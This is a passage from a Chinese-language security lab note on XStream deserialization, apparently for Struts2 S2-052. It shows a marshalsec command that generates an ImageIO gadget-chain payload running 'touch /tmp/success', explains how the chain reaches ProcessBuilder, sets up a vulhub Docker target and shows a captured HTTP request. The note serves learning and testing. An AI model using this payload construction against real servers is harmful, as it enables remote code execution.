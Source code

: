 
XStream 反序列化同  fastjson 这种不一样的地方是 fastjson 会在反序列化的时候主动去调用 getters 和 setters，而 XStream 的反序列化过程中赋值都有 Java 的反射机制来完成，所以并没有这样主动调用的特性。

---

> [mbechler/marshalsec --- (github.com)](https://github.com/mbechler/marshalsec)
>
> [内网Nextcloud/marshalsec](http://10.182.235.11/index.php/f/68018)

在了解了上述流程后可以使用 `marshalsec(Github/mbechler/marshalsec)` 来构建反序列化 payload

 ```bash
 java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream ImageIO "touch" "/tmp/success"
 ```

![image-20230608071644254](http://cdn.ayusummer233.top/DailyNotes/202306080716285.png)

这个 payload 利用了类 `javax.crypto.NullCipher` 和类 `java.lang.ProcessBuilder`。工作原理如下：

1. XML 中的 `<map>` 和 `<entry>` 标签用于构造一个 Java `Map` 对象，其中的键和值都是 `jdk.nashorn.internal.objects.NativeString` 对象，这个对象是 JDK 的内部类，用于表示 JavaScript 中的字符串。
2. 对象 `com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data` 包含一个 `javax.crypto.CipherInputStream` 类型的对象。`CipherInputStream` 类实现了 `java.io.InputStream` 接口，它的 `read` 方法会被调用，从而触发漏洞。
3. `javax.crypto.NullCipher` 类是一个空的 `Cipher` 实现，它没有任何加密或解密功能，但是可以用于触发反序列化链。
4. `javax.imageio.spi.FilterIterator` 类是一个实现了 `java.util.Iterator` 接口的类，它的 `hasNext` 和 `next` 方法会被调用，从而触发漏洞。
5. `java.lang.ProcessBuilder` 类是 Java 的一个核心类，用于创建和运行新的进程。这个类在 `FilterIterator` 的 `next` 字段中，所以 `ProcessBuilder` 的 `start` 方法会被调用，运行 `touch /tmp/success` 命令。

> [回顾XStream反序列化漏洞-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/204314#h3-11)

---

在靶机侧使用 vulhub 启动 s2-052 环境

```bash
# 从 vulhub 仓库根目录进入 s2-052 目录
cd struts2/s2-052
# 使用 docker 启动环境(可以修改同级目录下的 docker-compose.yml 文件以更改端口映射行为, 默认 8080:8080)
docker compose up -d
```

访问靶机 8080 端口 web 服务可以看到如下页面:

![image-20230608072835892](http://cdn.ayusummer233.top/DailyNotes/202306080728916.png)

任意编辑一条数据, 并使用 BurpSuit 抓包:

![image-20230608072903599](http://cdn.ayusummer233.top/DailyNotes/202306080729622.png)

![image-20230608072933452](http://cdn.ayusummer233.top/DailyNotes/202306080729503.png)

可以拦截到如下请求:

```http
POST /orders/3 HTTP/1.1
Host: 192.168.1.215:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://192.168.1.215:8080
Connection: close
Referer: http://192.168.1.215:8080/orders/3/edit
Cookie: JSESSIONID=C17E36303D6104B8D716519372F13B56
Upgrade-Insecure-Requests: 1

```